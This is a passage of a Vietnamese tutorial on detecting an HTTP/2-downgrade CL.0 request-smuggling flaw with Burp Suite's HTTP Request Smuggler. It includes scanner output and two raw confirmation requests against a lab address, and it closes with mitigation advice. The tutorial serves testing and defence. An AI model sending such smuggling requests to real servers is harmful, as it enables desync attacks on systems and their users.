 2. **Kích chuột phải và chọn**:
   `Extensions > HTTP Request Smuggler`

3. **Chạy quét cho lỗ hổng CL.0**: 
   Để kiểm tra lỗ hổng, bạn chỉ cần để tất cả các thiết lập mặc định và nhấn **Enter** để bắt đầu quét. Công cụ sẽ kiểm tra lỗ hổng **CL.0**, một loại lỗ hổng smuggling do tiêu đề `Content-Length` bị đặt là `0` và body chứa request bị smuggled.

4. **Xem kết quả**:
   Sau khi quét, bạn có thể thấy kết quả trong tab **HTTP Output** của Burp:
   ```
   Queueing request scan: CL.0
   Found issue: CL.0 desync: h2CL|TRACE /
   ```

### Xác Thực Lỗ Hổng

Để xác nhận lỗ hổng, bạn có thể thử gửi hai request từ output của công cụ như sau:

- **Request 1** (được gửi theo HTTP/1.1):
   ```
   POST /index.php HTTP/1.1
   Host: 172.17.0.2:8443
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 0
   TRACE / HTTP/1.1
   ```

- **Request 2** (được gửi theo HTTP/2):
   ```
   GET /index.php HTTP/2
   Host: 172.17.0.2:8443
   ```

Gửi chúng qua các kết nối TCP riêng biệt và kiểm tra các phản hồi. Nếu phản hồi đầu tiên có mã trạng thái 200 và phản hồi thứ hai có mã 405, điều này có nghĩa là bạn đã thành công trong việc smuggle request TRACE qua reverse proxy và ảnh hưởng đến request tiếp theo, chứng minh rằng đã có lỗ hổng request smuggling.

### Phòng Chống HTTP/2 Downgrading

**Cách phòng chống**: 

Nguyên nhân chính của các cuộc tấn công này là do quá trình **downgrading HTTP/2**. Các reverse proxy không nên viết lại các request HTTP/2 thành HTTP/1.1. Thay vào đó, HTTP/2 nên được triển khai end-to-end, tức là từ client đến server, để tránh phải viết lại request. Sự khác biệt giữa các phiên bản HTTP có thể dẫn đến các lỗ hổng như request smuggling nếu các reverse proxy và server web không thực hiện đúng theo chuẩn.

**Cấu hình đúng**:
- **Không viết lại HTTP/2 thành HTTP/1.1**: Cấu hình reverse proxy sao cho các request HTTP/2 được chuyển qua mà không cần phải chuyển đổi thành HTTP/1.1.
- **Thực thi HTTP/2 đúng chuẩn**: Đảm bảo rằng các phần mềm proxy và server web tuân thủ đầy đủ RFC của HTTP/2, đặc biệt là việc kiểm tra và xử lý các trường hợp đặc biệt trong tiêu đề.

**Kết luận**:
Với cấu hình và triển khai đúng đắn của HTTP/2, các vấn đề như request smuggling sẽ được hạn chế hoặc loại bỏ hoàn toàn. Tuy nhiên, việc kiểm tra kỹ càng các reverse proxy và phần mềm web server luôn là một bước quan trọng để bảo vệ hệ thống khỏi các cuộc tấn công tiềm tàng.
